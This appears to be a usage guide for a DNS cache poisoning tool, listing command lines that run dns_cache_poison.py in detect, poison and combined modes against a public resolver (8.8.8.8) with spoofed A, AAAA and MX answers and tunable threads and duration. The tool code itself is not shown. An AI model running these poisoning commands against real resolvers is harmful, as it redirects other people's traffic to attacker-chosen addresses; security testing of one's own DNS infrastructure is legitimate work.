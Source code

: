 # Usage Guide

This guide provides detailed instructions on how to use the RFS DNS Framework tools effectively.

## DNS Cache Poisoning Tool

### Basic Usage

1. **Vulnerability Detection**
   ```bash
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 192.168.1.1 \
     --mode detect
   ```

2. **Cache Poisoning Simulation**
   ```bash
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 192.168.1.1 \
     --mode poison
   ```

3. **Complete Analysis**
   ```bash
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 192.168.1.1 \
     --mode both \
     --record-type A \
     --duration 60 \
     --threads 15
   ```

### Advanced Features

1. **Different Record Types**
   ```bash
   # Test AAAA records
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip 2001:db8::1 \
     --record-type AAAA

   # Test MX records
   sudo python3 dns_cache_poison.py \
     --target example.com \
     --nameserver 8.8.8.8 \
     --spoofed-ip mail.example.com \
     --record-type MX
   ```
